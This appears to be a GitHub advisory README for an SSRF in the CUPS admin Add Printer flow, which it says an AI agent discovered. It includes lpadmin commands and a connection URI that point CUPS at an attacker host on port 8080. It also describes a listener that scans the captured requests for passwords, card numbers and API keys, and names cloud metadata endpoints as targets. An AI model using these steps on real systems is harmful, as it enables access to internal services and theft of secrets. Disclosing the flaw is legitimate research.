<img width="1918" height="321" alt="image" src="https://github.com/user-attachments/assets/5eeea057-13d9-4502-8327-dfa64af3f8f0" />
<img width="2698" height="422" alt="image" src="https://github.com/user-attachments/assets/159525ba-b207-4db5-bf36-33c79c2adb71" />
<img width="1712" height="236" alt="image" src="https://github.com/user-attachments/assets/08af1e9a-d40b-45fa-85ce-3974f306678b" />


## SSRF via Fake Printer Injection in CUPS
**OE19992541396** — Reported: 2024-09-08  
**Finder / Reporter:** SelfHack AI / Alperen T. Ugurlu

> **WARNING:** This PoC is intended for authorized, isolated lab environments only. Do **NOT** run this against production systems or systems you do not own or have explicit permission to test. Unauthorized testing may be illegal.

---

## How SelfHack AI Discovered This 

SelfHack AI read the history books — the PrintNightmare saga (CVE‑2021‑1675 / CVE‑2021‑34527) — and used that story as a lesson, not a recipe. It simulated those failure modes inside a safe lab, asking a simple, dangerous question: what would a spooler do if told to talk to the wrong place? The agent then crawled into the CUPS admin UI, mapped the Add‑Printer workflow, and liked the spooler executable as a promising character in the plot. With needle‑precise tests and quiet runtime tracing, it fed crafted inputs and watched the spooler binary open a socket and walk straight to an attacker‑controlled listener — headers and timing in hand, the scene was undeniable. That single, observable handoff (admin UI → spooler process → outbound HTTP) turned a theory into a confirmed SSRF finding. This was not luck: it was autonomous learning — public research taught the agent what to suspect, simulations taught it how to test, and controlled observation let it prove the crime on a macOS stage.


## TL;DR
CUPS (Common UNIX Printing System) admin web interface (`http://localhost:631/admin`) can be induced to initiate HTTP requests when a malicious or fake printer connection URI (e.g., `http://attacker:8080`) is added via the **Add Printer** flow. This allows SSRF and potential disclosure of sensitive data or access to internal services.

---

## Impact
- SSRF: server-side requests to attacker-controlled or internal endpoints.  
- Possible exposure of sensitive headers/body content.  
- Potential access to cloud metadata endpoints (e.g., `169.254.169.254`) or other internal services.  
- Enables further exploitation or lateral movement when combined with other vulnerabilities.

---

## Affected Components / Environment
- CUPS admin web interface (`/admin`) — admin privileges required to add printers.  
- Observed on macOS and Linux systems with CUPS accepting arbitrary HTTP URIs without sufficient validation.  
- PoC testing requires: CUPS host + attacker-controlled HTTP listener (Flask PoC included in this repo).

---

## Root Cause
CUPS does not adequately validate or restrict admin-supplied printer connection URIs. When a connection URI is accepted, the CUPS daemon attempts to contact that URI — enabling SSRF when the URI points to internal or attacker-controlled addresses.

---

## Reproduction (authorized lab only)

### 1) Using the CUPS Admin UI
1. Open the CUPS admin UI: `http://localhost:631/admin` (admin privileges required).  
2. Go to **Add Printer**.  
3. In the **Connection** field enter:  
http://<POC_SERVER_IP>:8080

bash
Kodu kopyala
4. Complete the printer addition process.  
5. The PoC listener (see below) should receive and log the request from the CUPS server.

### 2) Start the PoC listener
```bash
cd ssrf-cups-fake-printer
chmod +x poc.py
./poc.py // starts the Flask listener on port 8080.
```
The listener logs incoming requests and scans headers/body for basic sensitive patterns.

### 3) Example using lpadmin (Linux/macOS)
```bash
sudo lpadmin -p fake-printer -E -v "http://<POC_SERVER_IP>:8080" -m everywhere
sudo cupsenable fake-printer
sudo lpstat -p fake-printer -l
```
These commands programmatically add a printer that points at the PoC listener, causing CUPS to attempt the connection.

# PoC Listener
See poC/self.py — a minimal Flask-based HTTP listener included in this repository. It:

Logs request metadata (client IP, headers, body).
Searches request content and headers for simple sensitive-data patterns (email, basic "password" patterns, credit-card-like numbers, API key heuristics).
Returns a JSON summary of what it observed.

Note: The PoC is intentionally simple for demonstration and triage. Do not treat it as production monitoring code.

# Disclosure Timeline
```bash
2024-09-08 — Vulnerability reported (OE19992541396)
2024-09-30 — Reporter follow-up
2024-10-02 — PoC provided to vendor
2025-09-15 - Fix Date
```

